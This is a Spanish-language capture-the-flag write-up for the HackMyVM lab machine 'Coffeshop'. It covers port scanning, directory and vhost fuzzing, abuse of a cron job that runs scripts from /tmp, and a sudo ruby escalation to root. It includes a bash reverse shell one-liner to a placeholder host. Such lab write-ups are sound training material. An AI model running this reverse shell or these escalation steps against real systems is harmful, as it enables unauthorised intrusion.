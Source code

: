 ```yaml
---
layout: default
title: Coffeshop
parent: HackMyVM
grand_parent: Writeups
---
```


# Coffeshop
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22 y 80

```ruby
nmap -sS -n -Pn -T4 --open -p- 192.168.1.81
```

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

 ```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Haciendo uso de gobuster para enumerar directorios mediante fuerza bruta, nos encontramos con **shop**

```ruby
gobuster dir -u http://192.168.1.84/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```ruby
/shop                 (Status: 301) [Size: 311] [--> http://192.168.1.84/shop/]
```

### Explorando el sitio web

En el sitio web principal nos encontramos el nombre de un dominio **midnight.coffee**, es posible que se este aplicando virtual hosting y lo tengamos que agregar al **/etc/host** para que resuelva

```bash
echo "<IP>     midnight.coffee" | tee -a /etc/hosts
```

Si regresamos el sitio web y entramos el recurso **/shop**, nos mostrara un encabezado con varias opciones, donde tendremos un login

![](/assets/img/coffeshop/2.png)

En este punto intente probar con SQLi, NoSQLi, Type Juggling pero nada de eso me funciono, asi que recurri a enumerar subdominios, recordemos que agregamos un dominio al /etc/hosts, por lo cual debemos de hacer el fuzzing con ese dominio, usaremos wfuzz en modo vhost y descubriremos **dev**

```ruby
wfuzz -u 'http://midnight.coffee' -H 'Host: FUZZ.midnight.coffee' -t 100 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hh 1690
```

```ruby
200        71 L     152 W      1738 Ch     "dev"
```

Tambien hay que agregarlo el /etc/hosts

```bash
echo "<IP>     dev.midnight.coffee" | tee -a /etc/hosts
```

Al entrar al sitio, podremos ver las credenciales del login

![](/assets/img/coffeshop/3.png)

![](/assets/img/coffeshop/4.png)

## Movimiento lateral: tuna -> shopadmin

### user.txt (via no intencionada)

Durante la enumeracion, pude encontrar que en el directorio /opt existe un archivo de ruby que ocuparemos mas adelante

```ruby
-rw-r--r--  1 root root   27 Jan  3 14:00 shop.rb
```
Tambien intente enumerar binarios SUID, permisos a nivel de sudoers y nada, explore un poco mas y encontre en el directorio home de **shopadmin** tiene permisos de ejecucion, por lo que podemos entrar en el pero no listar contenido

![](/assets/img/coffeshop/5.png)

Asi que se me ocurrio leer el archivo **user.txt** y si tengo suerte y existe tener la flag, y si funciono

![](/assets/img/coffeshop/6.png)

### user.txt (via intencionada)

Si mostramos el archivo **.viminfo** podemos ver que se crearon y/o editaron varias cosas, como el crontab y el archivo **/tmp/uwu.sh** 

![](/assets/img/coffeshop/7.png)

Si mostramos las tareas cron, tenemos una que se ejecuta como el usuario **shopadmin**

```ruby
* * * * * /bin/bash /home/shopadmin/execute.sh
```

Al ver su contenido, podemos ver que esta ejecutando cualquier archivo **.sh** del directorio **/tmp**, por lo cual podemos crear uno que nos envie una reverse shell, en mi caso usare el tipico one liner de bash

```bash
#!/usr/bin/env bash
bash -i >& /dev/tcp/<IP>/443 0>&1
```

Despues de 1 minuto, nos llegara una shell y ya tendremos la flag se user por la via intencionada

![](/assets/img/coffeshop/8.png)

## Escalada de privilegios

Si mostramos los permisos de nivel de sudoers, podemos ver que podemos ejecutar cualquier cosa con ruby y el archivo **shop.rb**

```ruby
User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

Al buscar en **GFTOBins** obtenemos que podemos hacernos root ejecutando **ruby -e 'exec "/bin/sh"'**, si lo probamos asi no funcionada, por lo que debemos de indicarle el archivo **/opt/shop.rb**

```ruby
sudo ruby -e 'exec "/bin/bash"'  /opt/shop.rb
```

Y ya seremos root

![](/assets/img/coffeshop/9.png)

Eso ha sido todo, gracias por leer ❤